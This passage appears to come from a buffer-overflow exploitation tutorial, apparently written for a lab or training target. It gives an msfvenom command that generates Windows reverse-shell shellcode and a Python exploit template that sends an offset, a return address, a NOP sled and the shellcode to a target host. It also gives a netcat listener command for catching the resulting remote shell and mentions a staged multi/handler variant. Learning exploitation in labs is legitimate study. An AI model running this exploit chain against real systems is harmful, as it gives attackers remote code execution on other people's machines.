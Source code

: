 Now that we have done all of that we now gotta generate shell code for  it, we can use msfvenom for it with command 
`msfvenom -p windows/shell_reverse_tcp LHOST=<Your ip> LPORT=<PORT> -a x86 -b <Bad characters> -f python`

note format the bad characters as "\\x00\\x52" etc.

After doing the msfvenom it should return a bunch stuff, and it should be in python because of -f python, just paste below the comment.

```python
import socket

# Shellcode:


ip, port = "10.10.10.10", 9999 # Change the ip and port
offset = 0  # change this with what you got from step 2
prefix = b"" # change this if necessary and make sure theres a space at the end.
module = b"\xaf\x11\x50\x62" # Change this
nop = 16

try:
	s = socket.socket()
	s.connect((ip, port))
	s.send(prefix + b"A"*offset + module + b"\x90"*nop + buf)
except:
	print(f"Something went wrong")

s.close()
```

Now open a terminal and make a netcat listener with the port you gave before when genereting the shellcode
`nc -lnvp <PORT>`

Now execute the code and boom reverse shell.

## Note
If it dosent work maybe try changing the payload from "windows/shell_reverse_tcp" to "windows/shell/reverse_tcp" 
That will make the payload staged, which also means you have to catch it with multi/handler from msfconsole